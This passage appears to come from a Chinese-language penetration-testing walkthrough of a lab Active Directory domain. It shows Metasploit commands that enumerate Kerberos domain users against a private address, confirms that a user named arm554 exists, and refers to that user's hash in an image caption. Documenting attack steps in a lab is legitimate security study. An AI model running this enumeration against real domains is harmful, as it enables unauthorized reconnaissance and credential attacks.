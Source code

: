 扫描结果可以看出该IP是AD.

使用msf的信息收集模块进行Kerberos域用户枚举：

```bash
msf > use auxiliary/gather/kerberos_enumusers

msf auxiliary(kerberos_enumusers) > set RHOST 172.16.0.10

msf auxiliary(kerberos_enumusers) > set USER_FILE /root/user.txt

msf auxiliary(kerberos_enumusers) > set DOAMIN test.lab
```

![Alt text](./1512933753800.png)

![Alt text](./1512933785834.png)

`arm554`这个用户存在于`test.lab`这个域。

![arm554的hash](./1512933951020.png)
